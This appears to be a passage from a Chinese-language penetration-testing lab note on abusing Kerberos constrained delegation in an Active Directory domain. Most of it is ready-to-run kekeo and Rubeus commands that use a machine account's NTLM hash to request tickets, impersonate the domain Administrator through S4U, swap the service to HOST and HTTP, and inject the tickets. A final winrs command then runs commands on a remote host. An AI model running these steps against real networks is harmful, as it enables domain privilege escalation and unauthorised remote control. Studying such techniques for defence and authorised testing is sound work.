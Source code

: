 kekeo:

```powershell
tgt::ask /user:IIS-8$ /domain:ins.z /ntlm:bd3d734cdaec88d806c2f8458eb6c357
kerberos::ptt TGT_IIS-8$@INS.Z_krbtgt~ins.z@INS.Z.kirbi
tgs::s4u /tgt:TGT_IIS-8$@INS.Z_krbtgt~ins.z@INS.Z.kirbi /user:administrator@ins.z /service:cifs/win7.ins.z
kerberos::ptt TGS_administrator@ins.z@INS.Z_cifs~win7.ins.z@INS.Z.kirbi
```

rubeus:

```powershell
# rubeus
# Obtain a TGT for the Constained allowed user
Rubeus.exe asktgt /user:iis-8$ /rc4:bd3d734cdaec88d806c2f8458eb6c357 /outfile:TGT_iis-8.kirbi
# Obtain a TGS of the Administrator user to self
Rubeus.exe s4u /ticket:TGT_iis-8.kirbi /impersonateuser:Administrator /outfile:TGS_administrator.kirbi
# Obtain service TGS impersonating Administrator (CIFS)
Rubeus.exe s4u /ticket:TGT_iis-8.kirbi /tgs:TGS_administrator_Administrator@INS.Z_to_iis-8$@INS.Z.kirbi /msdsspn:"CIFS/win7.ins.z" /outfile:TGS_administrator_CIFS.kirbi
# Impersonate Administrator on different service (HOST)
Rubeus.exe s4u /ticket:TGT_iis-8.kirbi /tgs:TGS_administrator_Administrator@INS.Z_to_iis-8$@INS.Z.kirbi /msdsspn:"CIFS/win7.ins.z" /altservice:HOST /outfile:TGS_administrator_HOST.kirbi
# Load ticket in memory
Rubeus.exe ptt /ticket:TGS_administrator_HOST_HOST-win7.ins.z.kirbi
Rubeus.exe ptt /ticket:TGS_administrator_HOST_HTTP-win7.ins.z.kirbi
```

导入与约束委派允许的服务所在服务器相对应的 HOST 服务票据 + HTTP 服务票据，即可伪装为域管用户 administrator 通过 WinRM 管理远程主机。

![](/assets/images/move/2021-01-22-11-41-58.png)

```powershell
winrs -r:win7.ins.z "ipconfig"(/cmd)
```

![](/assets/images/move/2021-01-22-11-25-39.png)
